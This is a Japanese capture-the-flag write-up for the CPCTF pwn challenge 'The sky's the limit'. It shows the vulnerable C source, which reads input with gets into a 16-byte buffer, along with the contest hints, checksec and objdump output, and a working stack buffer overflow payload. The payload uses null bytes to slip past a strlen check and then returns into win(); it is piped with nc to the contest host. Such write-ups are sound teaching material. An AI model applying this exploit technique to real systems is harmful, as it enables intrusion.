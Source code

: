# The sky's the limit:Pwn:268.23pts
あまりにも長い入力は危険らしいので弾くようにしました！  
`nc the_skys_the_limit.web.cpctf.space 30007`  

[配布ファイル](the_skys_the_limit.zip)  

**Hint1**  
脆弱性があるのは28行目のgets関数です。  
**Hint2**  
gets関数でbufよりも大きい文字列を入力できるため、stack buffer overflow の脆弱性があります。  
上手くwin関数に処理を飛ばしましょう。  
また、strlenでの文字列チェックに引っかからないようにするため、文字列の区切りとなるようなものを入力する文字列に仕込みましょう。  
stack alignment に注意してください。  
**Hint3 (解法)**  
'\x00'などを入力すると、そこが文字列の終端であるとみなされるため文字列長をごまかすことができます。  
これを踏まえてstack buffer over flow をしていきましょう。  
'\x00'を24文字、ret命令、win関数のアドレスの順に入力すればうまくいきそうです。  
`echo -e "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x13\x13\x40\x00\x00\x00\x00\x00\x89\x12\x40\x00\x00\x00\x00\x00"`  
これをパイプなどで入力しましょう。  

# Solution
接続先とソースが配布される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 16

int init(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
	alarm(60);

	return 0;
}

int win() {
	system("cat flag.txt");

	return 0;
}

int main() {
	init();

	char buf[BUF_SIZE];

	printf("input:");
	gets(buf);

	if(strlen(buf) > BUF_SIZE) {
		printf("Too long.\n");
		exit(0);
	}

	return 0;
}
```
`gets`で自明なBOFがある。  
ただし`strlen`で入力を検証しており、16バイトより大きいと`Too long.`と怒られる。  
以下のようにセキュリティ機構をチェックする。  
```bash
$ checksec --file=./chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   46 Symbols        No    0               2               ./chall
```
Canaryは無いようだ。  
ここで`strlen`がヌルバイトまでの長さを見るのに対し、`gets`はヌルバイトを受け付けることに気づく。  
つまり、入力の16バイト以内にヌルバイトが存在する場合、`strlen`のチェックを常に通る。  
パディングの先頭にヌルバイトを付加して、ROPしてやればよい。  
スタックアラインメントの調整のためretを挟んで、winに飛ばしてやる。  
```bash
$ objdump -D ./chall | grep win -A 9
0000000000401289 <win>:
  401289:       f3 0f 1e fa             endbr64
  40128d:       55                      push   %rbp
  40128e:       48 89 e5                mov    %rsp,%rbp
  401291:       48 8d 05 6c 0d 00 00    lea    0xd6c(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  401298:       48 89 c7                mov    %rax,%rdi
  40129b:       e8 30 fe ff ff          call   4010d0 <system@plt>
  4012a0:       b8 00 00 00 00          mov    $0x0,%eax
  4012a5:       5d                      pop    %rbp
  4012a6:       c3                      ret
$ echo -e "\x00AAAAAAAAAAAAAAAAAAAAAAA\xa6\x12\x40\x00\x00\x00\x00\x00\x89\x12\x40\x00\x00\x00\x00\x00" | nc the_skys_the_limit.web.cpctf.space 30007
input:CPCTF{Nu11_s7rin6_m4De_y0u_fr3E}Segmentation fault (core dumped)
```
flagが得られた。  

## CPCTF{Nu11_s7rin6_m4De_y0u_fr3E}